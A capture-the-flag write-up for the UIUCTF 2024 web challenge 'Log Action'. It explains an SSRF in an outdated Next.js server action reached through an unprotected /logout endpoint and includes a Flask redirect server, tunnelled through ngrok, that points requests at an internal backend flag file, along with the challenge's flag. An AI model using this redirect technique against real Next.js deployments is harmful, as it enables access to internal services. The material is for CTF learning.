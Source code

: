 # Web - Log Action
Solved by **Shen**\
Original Writeup: https://chuajianshen.github.io/2024/06/29/UIU2024/

## Question
I keep trying to log in, but it's not working :'(

## Solution
The application uses an older version of Next.js vulnerable to SSRF. Through research, a blog from Assetnote stands out as a reference.
https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps

Besides, the /login condition doesn't allow for SSRF exploitation directly due to admin login requirements.
```
"use server";
...
finally {
    if (!foundError) {
      redirect('/admin');
    }
  }
```

However, the /logout endpoint, which typically requires authentication, is not protected by the authentication middleware beyond paths containing /admin/. This allows unauthorized access to /logout. 
```
export const { auth, signIn, signOut } = NextAuth({
  ...authConfig,
  providers: [
    Credentials({
      async authorize(credentials) {
        const parsedCredentials = z
          .object({ username: z.string(), password: z.string() })
          .safeParse(credentials);

        if (parsedCredentials.success) {
          const { username, password } = parsedCredentials.data;
          // Using a one-time password is more secure
          if (username === "admin" && password === randomBytes(16).toString("hex")) {
            return {
              username: "admin",
            } as User;
          }
        }
        throw new CredentialsSignin;
      },
    }),
  ]
});
```

Hosted a Flask server to redirect request to http://backend/flag.txt with ngrok.

```
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

if __name__ == '__main__':
    app.run()

uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
```

Submitted a crafted request to the /logout endpoint that pointing to the Flask server. The server should redirect requests to  http://backend/flag.txt and allow us to retrieve the flag.
![Flag](flag.png)

### Flag
uiuctf{close_enough_nextjs_server_actions_welcome_back_php}